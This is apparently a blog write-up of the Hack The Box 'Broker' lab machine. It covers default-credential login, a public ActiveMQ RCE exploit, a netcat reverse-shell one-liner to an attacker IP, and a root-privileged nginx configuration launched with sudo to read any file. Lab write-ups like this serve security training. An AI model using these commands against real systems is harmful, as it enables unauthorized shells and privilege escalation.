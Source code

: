 ```yaml
---
layout: post
title: Hack The Box - Broker Writeup
date: 2024-06-15 02:00:00 +0100
published: true
categories: [Hack The Box]
tags: [Hack The Box]
---
```


![brokerBadge.png](/assets/img/Broker/brokerBadge.png)

## Summary

After bypassing basic `HTTP` authentication on port 80, I discovered that `Apache ActiveMQ` is in use. Searching for `Apache ActiveMQ` vulnerabilities, I found exploit which allows RCE. Exploit generated a pseudo shell which, I leveraged to get reverse shell on system. Enumerating system as user `activemq` revealed that `activemq` can run `/usr/sbin/nginx` with `sudo`. Running `/usr/sbin/nginx` with `-c` parameter allowed me to set arbitrary configuration file. I was able to exploit this by creating a new vulnerable `nginx` configuration file with root directory set to filesystem root. Running `/usr/sbin/nginx` with `sudo` and malicious `nginx.conf` file allowed me to read all files on filesystem. 


## Reconnaissance

### Nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Service Enumeration

| **IP Address** | **Ports Open** |
|-------|--------|
| 10.10.11.180 | **TCP**: 22, 80 |


#### Port 80

Accessing port 80 we can see that there is basic HTTP authentication set. 

![80basicAuth.png](/assets/img/Broker/80basicAuth.png)


I was able to sign in using default credentials `admin : admin`. Successful login granted me access to `index.html`, which revealed that `Apache ActiveMQ` is in use. 

![80.png](/assets/img/Broker/80.png)


## Initial Foothold

Searching for `Apache ActiveMQ` vulnerabilities, I found [exploit](https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell) which allows remote code execution.

```
python3 exploit.py -i 10.10.11.243 -si 10.10.14.14 -sp 8087
```

![exploit.png](/assets/img/Broker/exploit.png)

To get a reverse shell on the system, I used the following payload: 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.14 80 >/tmp/f
```

![reverseShell.png](/assets/img/Broker/reverseShell.png)

![userFlag.png](/assets/img/Broker/userFlag.png)


## Privilege Escalation

### System Enumeration

Enumerating system as user `activemq` revealed that I can run `/usr/sbin/nginx` with `sudo`. 

```
sudo -l
```

![sudoL.png](/assets/img/Broker/sudoL.png)

### Creating vulnerable nginx server 

First I tried to see all parameters that can be set while running `nginx` command. 

```
sudo /usr/sbin/nginx -h
```

![nginxHelp.png](/assets/img/Broker/nginxHelp.png)

We can see that `-c` option allows us to set arbitrary configuration file. To leverage this I created new `nginx.conf`. Server will be listening on port 8081 and root directory is set to filesystem root. 

```
user root;
worker_processes auto;
error_log /var/log/nginx/error.log warn;
pid /var/run/nginx.pid;

events {
    worker_connections 1024;
}

http {
    include /etc/nginx/mime.types;
    default_type application/octet-stream;

    server {
        listen 8081;
        server_name localhost;

        root /;  # Setting the root to the filesystem root

        location / {
            try_files $uri $uri/ =404;
        }

        error_page 500 502 503 504 /50x.html;
        location = /50x.html {
            root /usr/share/nginx/html;  # Serve error page from a safer directory
        }
    }
}
```

Running `/usr/sbin/nginx` with this configuration file and `sudo` privileges made vulnerable `nginx` server accessible on port 8081 and allowed me to read any file on filesystem. 

```
sudo /usr/sbin/nginx -c "/tmp/nginx.conf"
```

![escalation.png](/assets/img/Broker/escalation.png)
